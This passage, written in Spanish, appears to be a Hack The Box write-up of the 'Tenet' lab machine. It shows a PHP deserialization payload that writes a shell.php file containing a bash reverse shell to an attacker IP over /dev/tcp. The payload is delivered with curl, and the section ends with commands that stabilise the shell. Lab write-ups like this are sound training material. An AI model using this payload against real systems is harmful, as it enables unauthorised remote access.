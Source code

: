 El script definirá un fichero shell.php y escribirá el contenido de data en él. Después al ejecutarlo con php -f mostrará el contenido deserializado en formato urlencode.

```bash
❯ php -f payload.php;echo                                                                                                                                                                                       ─╯
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A72%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.49%2F443+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

![](/assets/images/Tenet-Hackthebox/ppayload.png)

Con curl le paso la salida del comando anterior a la variable arepo, y al acceder al fichero shell.php obtengo la reverse shell.

```bash
curl -i http://sator.tenet.htb/sator.php\?arepo\=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A72%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.10.14.49%2F443+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

![](/assets/images/Tenet-Hackthebox/shell.png)

## Escalada al usuario Neil
--------------

Convierto la shell en totalmente interactiva.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl + z
stty raw -echo
fg
export TERM=xterm
export SHELL=bash
stty rows 58 columns 213
```
